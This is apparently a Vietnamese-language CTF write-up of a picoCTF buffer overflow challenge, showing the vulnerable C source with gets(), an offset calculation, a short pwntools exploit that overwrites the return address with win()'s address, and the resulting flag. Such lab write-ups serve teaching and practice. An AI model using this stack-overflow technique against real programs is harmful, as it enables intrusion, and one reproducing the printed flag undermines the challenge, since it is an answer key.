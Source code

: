 **1. Tìm lỗi**

   Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

   Ta thấy chương trình có lệnh gets và hàm win(hàm in ra flag) -> Nghĩ đến lỗi bof
   Dùng lệnh 'checksec' để kiểm tra ta có:

   ![checksec.png](photo/checksec.png)

   Ta thấy CANARY đang ở trạng thái disabled -> Có thể khai thác qua lỗi bof

**2. Ý tưởng**

   Nhờ lỗi bof nên có thể nhập tràn từ biến buf đến ret rồi chèn địa chỉ hàm win vào

**3. Viết script**

   Dùng lệnh 'file' để kiểm tra file thực thi

   ![file.png](photo/file.png)

   Ta thấy được là file 32bit

   ![buf.png](photo/buf.png)

   Địa chỉ biến buf là: ebp - 0x28 -> Khoảng cách từ buf đến ret là: 0x28 + 0x4 = 44

   ![win.png](photo/win.png)

   Địa chỉ hàm win là: 0x080491f6

   Ta có file script như sau: 

```
from pwn import *

r = remote("saturn.picoctf.net", 61990)

payload = b'a'*44 + p32(0x080491f6)
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

   ![flag.png](photo/flag.png)

   Flag: picoCTF{addr3ss3s_ar3_3asy_2e53b270}